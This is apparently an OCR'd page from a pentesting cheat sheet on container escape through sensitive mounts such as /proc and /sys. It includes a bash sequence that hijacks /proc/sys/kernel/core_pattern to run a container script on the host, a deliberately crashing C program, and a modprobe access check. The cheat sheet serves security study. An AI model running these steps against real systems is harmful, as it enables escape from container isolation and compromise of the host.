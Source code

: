 # Sensitive Mounts


The exposure of `/proc`, `/sys`, and `/var` without proper namespace isolation introduces significant security risks, including attack surface enlargement and information disclosure. These directories contain sensitive files that, if misconfigured or accessed by an unauthorized user, can lead to container escape, host modification, or provide information aiding further attacks. For instance, incorrectly mounting `-v /proc:/host/proc` can bypass AppArmor protection due to its path-based nature, leaving `/host/proc` unprotected.

**You can find further details of each potential vuln in** [[https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts|**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**]]**.**

## procfs Vulnerabilities

### `/proc/sys`

This directory permits access to modify kernel variables, usually via `sysctl(2)`, and contains several subdirectories of concern:

#### **`/proc/sys/kernel/core_pattern`**

- Described in [[https://man7.org/linux/man-pages/man5/core.5.html|core(5)]].
- If you can write inside this file it's possible to write a pipe `|` followed by the path to a program or script that will be exuted after a crash happens.
-  An attacker can find the path inside the host to his container executing `mount` and write the path to a binary inside his container file system. Then, crash a program to make the kernel execute the binary outside of the container.

- **Testing and Exploitation Example**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Set custom handler
sleep 5 && ./crash & # Trigger handler
```
```
Check [[https://pwning.systems/posts/escaping-containers-for-fun/|this post]] for more information.

Example program taht crashes:

```c
int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
		buf[i] = 1;
	}
	return 0;
}
```
```
#### **`/proc/sys/kernel/modprobe`**

- Detailed in [[https://man7.org/linux/man-pages/man5/proc.5.html|proc(5)]].
- Contains the path to the kernel module loader, invoked for loading kernel modules.
- **Checking Access Example**:

  ```bash
  ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
  ```
